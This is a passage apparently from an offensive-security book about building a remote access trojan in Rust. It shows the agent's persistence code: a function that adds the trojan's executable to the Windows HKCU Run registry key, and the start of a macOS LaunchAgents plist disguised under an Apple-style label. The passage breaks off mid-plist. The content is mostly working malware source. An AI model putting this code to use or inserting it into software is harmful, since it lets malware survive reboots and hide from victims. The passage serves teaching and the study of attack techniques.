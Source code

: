 ### Windows persistence

On Windows, persistence can be achieved by creating a [registry](https://en.wikipedia.org/wiki/Windows_Registry) key with the path: `%CURRENT_USER%\Software\Microsoft\Windows\CurrentVersion\Run`.


**[ch_12/rat/agent/src/install/windows.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_12/rat/agent/src/install/windows.rs)**
```rust
fn install_registry_user_run(executable: &PathBuf) -> Result<(), crate::Error> {
    let hkcu = RegKey::predef(HKEY_CURRENT_USER);
    let path = Path::new("Software")
        .join("Microsoft")
        .join("Windows")
        .join("CurrentVersion")
        .join("Run");
    let (key, disp) = hkcu.create_subkey(&path).unwrap();
    key.set_value("BhrAgentCh12", &executable.display().to_string())
        .unwrap();

    Ok(())
}
```

```rust
pub fn install() -> Result<(), crate::Error> {
    let executable_path = super::copy_executable()?;

    println!("trying registry user Run persistence");
    if let Ok(_) = install_registry_user_run(&executable_path) {
        println!("success");
        return Ok(());
    }
    println!("failed");

    // other installation techniques

    Ok(())
}
```

### macOS Persistence

On macOS, persistence can be achieved with [`launchd`](https://support.apple.com/guide/terminal/script-management-with-launchd-apdc6c1077b-5d5d-4d35-9c19-60f2397b2369/mac) by creating a plist file in the `Library/LaunchAgents` folder.

**[ch_12/rat/agent/src/install/macos.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_12/rat/agent/src/install/macos.rs)**
```rust
pub const LAUNCHD_FILE: &str = "com.blackhatrust.agent.plist";

fn install_launchd(executable: &PathBuf) -> Result<(), crate::Error> {
    let launchd_file_content = format!(r#"<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "https://web.archive.org/web/20160508000732/http://www.apple.com/DTDs/PropertyList-1.0.dtd">
    <plist version="1.0">
        <dict>
            <key>Label</key>
            <string>com.apple.cloudd</string>
            <key>ProgramArguments</key>
            <array>
                <string>{}</string>
            </array>
            <key>RunAtLoad</key>
            <true/>
```